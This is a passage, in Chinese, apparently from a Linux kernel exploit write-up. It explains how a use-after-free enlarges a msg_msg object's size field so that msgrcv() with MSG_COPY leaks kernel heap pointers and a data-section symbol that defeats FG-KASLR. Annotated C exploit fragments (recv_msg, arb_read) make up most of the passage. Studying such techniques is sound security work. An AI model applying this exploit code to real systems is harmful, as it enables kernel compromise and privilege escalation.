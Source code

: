 **泄露内存**：**利用UAF改大 QID #0 队列的消息`msg_msg->m_ts`，调用`msgrcv()`越界读取** **QID #0** 队列的第1个消息，`m_list.next` （指向下一个消息 `kmalloc-4096`）和 `m_list.prev` （指向**`QID #1`**队列），最后我们还能泄露 [`sysfs_bin_kfops_ro`](https://elixir.bootlin.com/linux/v5.8/source/fs/sysfs/file.c#L226)，由于该符号位于内核的data节，所以不受FG-KASLR保护的影响，所以可以用来计算内核基址。

```c
[...]

void *recv_msg(int qid, size_t size)
{
    void *memdump = malloc(size);

    if (msgrcv(qid, memdump, size, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR) == -1)
    {
        perror("msgrcv");
        return NULL;
    }

    return memdump;
}

[...]

uint64_t *arb_read(int idx, uint64_t target, size_t size, int overwrite)
{
    struct evil_msg *msg = (struct evil_msg *)malloc(0x100);

    msg->m_type =  0;
    msg->m_ts = size; 						// [2] 调用edit_rule()覆盖目标对象的 m_ts 域

    if (overwrite)
    {
        msg->next = target;
        edit_rule(idx, (unsigned char *)msg, OUTBOUND, 0);
    }
    else
    {
        edit_rule(idx, (unsigned char *)msg, OUTBOUND, 1); // [3]
    }

    free(msg);

    return recv_msg(qid[0], size); 			// [4] 调用 recv_msg(),也即msgrcv()的包装函数,注意使用 MSG_COPY flag, 就能泄露内存。由于我们破坏了 m_list.next 和 m_list.prev 指针，所以如果不使用 MSG_COPY flag 的话，do_msgrcv() 就会 unlink message，导致出错崩溃。
}

[...]

uint64_t *leak = arb_read(0, 0, 0x2000, 0); // [1] 调用 arb_read(), 参数0x2000

[...]
```
